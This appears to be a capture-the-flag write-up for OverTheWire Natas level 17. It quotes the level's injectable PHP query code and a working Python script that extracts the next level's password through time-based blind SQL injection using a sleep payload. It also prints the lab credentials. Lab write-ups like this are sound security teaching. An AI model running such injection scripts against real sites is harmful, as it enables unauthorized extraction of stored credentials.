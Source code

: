 # Level 17

## Challenge Details 

- **CTF:** OverTheWire
- **Category:** Natas

## Provided Materials

- [http://natas17.natas.labs.overthewire.org](http://natas17.natas.labs.overthewire.org)
- username: `natas17`
- password: `XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd`

## Solution

![start](./start.jpg)

Let's analyze the sourcecode:

```php
...
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas17', '<censored>');
    mysqli_select_db($link, 'natas17');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>
...
```

So it is pretty much the same as [level 15](https://github.com/bu19akov/CTF-Challenge-Solutions/tree/main/OverTheWire/Natas/level_15) but now we won't get direct response if the user is found or not. It's definitely [Time-Based Blind SQL Injection](https://www.sqlinjection.net/time-based/)! Let's we will modify the script from [level 15](https://github.com/bu19akov/CTF-Challenge-Solutions/tree/main/OverTheWire/Natas/level_15) to cause a delay if the character is correct. This means, that if the character is correctly guessed, we will have to wait `sleep(N)` seconds:  *(`natas18" and IF(password LIKE BINARY "{current_password}%", sleep(3), false) #`)* -> If password is correct, then `sleep` for 3 seconds, else return false:

```py
import requests
import time

# Base URL and endpoint of the target site
url = 'http://natas17.natas.labs.overthewire.org/index.php'

# Characters to test in the password
characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'

# Store the successfully found password
found_password = ''

# Threshold time to determine if the character is part of the password
time_threshold = 1  # seconds

# Function to make a POST request and check if the character causes a delay
def check_character(current_password):
    # Payload for POST request, updated with the correct SQL query structure to cause a delay
    payload = f'natas18" and IF(password LIKE BINARY "{current_password}%", sleep(3), false) #'

    headers = {
        'Authorization': 'Basic bmF0YXMxNzpYa0V1Q2hFMFNibktCdkgxUlU3a3NJYjl1dUxtSTdzZA==',
        'Content-Type': 'application/x-www-form-urlencoded',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.88 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
        'Accept-Encoding': 'gzip, deflate, br',
        'Accept-Language': 'ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7',
        'Connection': 'close',
        'Cache-Control': 'max-age=0',
        'Origin': 'http://natas17.natas.labs.overthewire.org',
        'Referer': 'http://natas17.natas.labs.overthewire.org/',
        'Upgrade-Insecure-Requests': '1'
    }

    # Start timing the request
    start_time = time.time()

    # Make the POST request
    response = requests.post(url, headers=headers, data={'username': payload})

    # End timing the request
    end_time = time.time()

    # Calculate the duration of the request
    duration = end_time - start_time
    print(f"Testing '{current_password}' took {duration:.2f} seconds")
    
    # Return true if the response took longer than the threshold
    return duration > time_threshold

# Brute force the password character by character
for i in range(50):  # assuming max 50 characters
    found_this_iteration = False  # Flag to check if we found at least one character in this iteration
    for char in characters:
        test_password = found_password + char
        if check_character(test_password):
            found_password += char
            print(f'Found so far: {found_password}')
            found_this_iteration = True
            break
    if not found_this_iteration:
        print("No further characters found. Ending search.")
        break

print(f'Complete password: {found_password}')
```

## Password

`natas18`:`8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq`

*Created by [bu19akov](https://github.com/bu19akov)*